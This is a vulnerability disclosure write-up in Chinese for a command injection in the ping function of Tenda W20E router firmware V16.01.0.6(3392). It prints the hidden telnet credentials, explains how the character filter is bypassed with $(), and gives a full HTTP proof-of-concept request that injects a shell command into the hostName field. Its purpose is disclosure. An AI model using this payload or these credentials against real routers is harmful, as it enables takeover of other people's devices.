


# Tenda W20E 命令注入漏洞
## Overview
- 厂商官网：https://www.tenda.com.cn/
- 固件下载地址：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
腾达W20E V16.01.0.6(3392)存在一个命令注入漏洞，可以在系统中执行任意命令。
## Affected version


该图显示了最新的固件:V16.01.0.6(3392)

## Vulnerability details
开启telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

使用ida分析httpd，在函数do_ping_action中:使用ida分析httpd，在函数do_ping_action中:


该程序将通过hostname参数获得的内容传递给hostName。
有一些参数的过滤是由if判断的，但我们可以绕过它，这将在下一节解释。
然后，通过strncpy函数将hostname的内容复制到cfg.hostname中。
而cfg是由函数cmd_get_ping_output()调用的。
在函数cmd_get_ping_output中:



然后通过snprintf函数将cfg.hostname的匹配内容格式化为new_cmd_buf。
new_cmd_buf由popen()调用。
存在命令注入漏洞。
相应的网页如下:



## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。
在if的判断中，可以看到字符(；| &)进行筛选，如果包含这些字符，代码将失败。
但是我们可以用' $ '来进行命令注入。

功能数据包如下，我们将使用它来构建poc。
```http
POST /goform/module?1668695093889 HTTP/1.1
Host: 192.168.0.1
Content-Length: 87
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=70ebc4f9c9d22827a5874d1bb6f06abddwdvmy; bLanguage=cn; sessionid=W20Ev5:0.167.3:6b0846
Connection: close

{"setFixTools":{"networkTool":1,"hostName":"test$(touch /tmp/test0)","packageSize":32}}
```

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1.连接物理设备
2.用POC攻击

POC和复制结果如下:


图显示了POC攻击的效果，创建了文件test0。


## CVE-ID
unsigned